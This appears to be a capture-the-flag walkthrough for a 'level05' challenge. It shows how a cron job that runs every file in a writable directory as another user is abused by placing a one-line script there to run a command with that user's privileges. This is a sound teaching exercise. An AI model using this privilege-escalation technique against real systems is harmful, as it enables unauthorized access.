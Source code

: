 When we log in we can see:

```
You have a new mail.
```

We have a file named level05 in /var/mail/level05:

```
$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Check the content of /usr/sbin/openarenaserver:

```
$ cat /usr/sbin/opearenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done 
```

This script iterate on every files in /opt/openarenaserver/ and execute it with the permissions of the crontab owner.
We need to create a little script to get the flag:

```
getflag > /opt/openarenaserver/flag
```

Wait 2 minutes and get the flag:

```
$ cat flag
Check flag.Here is your token : xxxxxxxxxxxxxxxxxxxxxxxxx
```
